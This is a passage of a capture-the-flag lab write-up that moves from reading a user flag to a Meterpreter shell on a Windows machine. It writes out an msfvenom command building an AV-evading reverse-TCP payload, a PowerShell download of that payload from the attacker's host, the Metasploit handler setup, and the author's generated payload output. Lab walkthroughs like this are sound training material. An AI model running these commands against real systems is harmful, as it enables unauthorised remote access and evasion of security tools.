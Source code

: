 
#### 4. What is the user.txt flag? 
We can read the **"C:\users\bruce\desktop\user.txt"** file and retrieve the flag.



### <span style="color: var(--link-color);"> [Task 2] - Switching Shells </span>

> To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.
> 
> Use msfvenom to create the a windows meterpreter reverse shell using the following payload
> msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
> 
> 
> This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.
> 
> After creating this payload, download it to the machine using the same method in the previous step:
> powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
> 
> Before running this program, ensure the handler is set up in metasploit:
> use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
> 
> 
> ﻿This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell
> 
> Start-Process "shell-name.exe"
> 
> This should spawn a meterpreter shell for you!


Since the shell that we obtain before is unstable, we use Metasploit to get a more stable shell.

#### 1. What is the final size of the exe payload that you generated?
We generate the payload that will be used to retrieve a reverse shell:
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.80.159 LPORT=4444 -f exe -o shell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
